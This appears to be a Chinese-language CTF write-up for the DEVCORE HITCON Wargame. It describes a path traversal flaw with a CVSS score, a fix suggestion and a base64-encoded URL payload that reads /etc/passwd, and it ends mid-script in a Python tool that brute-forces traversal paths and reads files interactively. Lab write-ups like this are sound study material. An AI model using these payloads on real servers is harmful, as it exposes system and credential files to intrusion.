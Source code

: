 # DEVCORE HITCON Wargame

## 我有架起來在 CTFd 上面，如果有興趣的可以玩玩看
> p.s. 我有藏第七個 flag ～
> https://entroy.tk/

## Rank
![](https://i.imgur.com/7YAgIW7.png)

## 弱點 01：Path Traversal

### CVSS
Score:7.5, CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N

### 風險描述
由於 id 參數僅是 base64url 編碼格式而未進行加密保護，因此攻擊者可以輕易竄改參數內容，並且參數在串接進下載檔案路徑時未進行過濾，可以利用「\.\.」字串跳脫當前路徑以下載伺服器上任意位置的檔案內容。

例如：可以讀取 /etc/passwd 檔案內容
http://web.ctf.devcore.tw/image.php?id=Li4vLi4vLi4vLi4vZXRjL3Bhc3N3ZA==

備註：
```php=
"Li4vLi4vLi4vLi4vZXRjL3Bhc3N3ZA==" = base64url("../../../../etc/passwd")
```

### 弱點細節

### 修補建議
過濾檔案路徑不可以出現「\.\.」字串，並且可對 id 參數進行加密保護。

### 心得
* 稍微找一下發現 `image.php` 有著非常可疑的 base64 直接 decode 後發現是檔案名稱直覺就是 path traversal
* 一開始是用別人的 list dump 出資料來看看，不過之後我就跑去打 lol 了 www 所以找到網頁原始碼的是 @txya900619 ，我很抱歉
```python=
import requests
import base64

url = 'http://web.ctf.devcore.tw/image.php'

def checkFilePath():
    f = open('list.txt').readlines()

    for i in f:
        file_path = base64.b64encode(('../../../../../../../../../../../../' + str(i)).replace('\n', '').encode('utf-8')).decode('utf-8')
        params = {
            'id': file_path
        }

        response = requests.get(url, params=params)
        if response.status_code == 200:
            print(i)
            print(response.text)

def interactMode():
    while True:
        file_path = base64.b64encode(('../../../../../../../../../../../../' + input()).encode('utf-8')).decode('utf-8')
        params = {
```